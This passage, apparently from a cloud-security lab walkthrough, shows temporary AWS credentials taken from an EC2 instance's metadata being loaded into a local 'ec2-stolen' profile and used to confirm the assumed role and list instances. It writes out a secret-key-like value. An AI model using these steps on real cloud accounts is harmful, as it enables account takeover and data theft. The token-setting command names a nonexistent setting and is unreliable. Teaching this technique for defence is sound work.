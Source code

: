 This does, in fact, return temporary credentials:

```
{
  "Code" : "Success",
  "LastUpdated" : "2024-01-21T02:42:34Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "ASIA...",
  "SecretAccessKey" : "...",
  "Token" : "...",
  "Expiration" : "2024-01-21T09:08:26Z"
}
```

Take note of the *AccessKeyId*, *SecretAccessKey*, and *Token*. The Access Key ID stars with the string "ASIA," which confirms that this is a set of temporary credentials. In our workstation, we can "steal" this identity with *aws configure*. We'll call this profile *ec2-stolen*:

```
~$ aws configure --profile ec2-stolen
AWS Access Key ID: ASIA...
AWS Secret Access Key: Ii+ENMOCljICwUF8N15Nf+6lnv/AF0ZfWrlZ97k5
# Use the default region and output format...
```

Use one more command to set the access token, replacing `<Token>` with the long token value from the leaked credentials:

```
~$ aws configure --profile ec2-stolen set aws_access_token <Token>
```

Confirm your identity by comparing the original caller-identity information with that of the stolen credentials' identity:

```
~$ aws sts get-caller-identity 
{
    "UserId": "AIDA...",
    "Account": "...",
    "Arn": "arn:aws:iam::<UserId>:user/<UserId>"
}
~$ aws sts get-caller-identity --profile ec2-stolen
{
    "UserId": "AROA...",
    "Account": "...",
    "Arn": "arn:aws:sts::<UserId>:assumed-role/StarStarWAFRole/i-02c65bd50a06ee546"
}
```

Use the stolen credentials to describe EC2 instances associated with this role:

```
~$ aws ec2 describe-instances --profile ec2-stolen
```

From the output JSON, note the following fields:

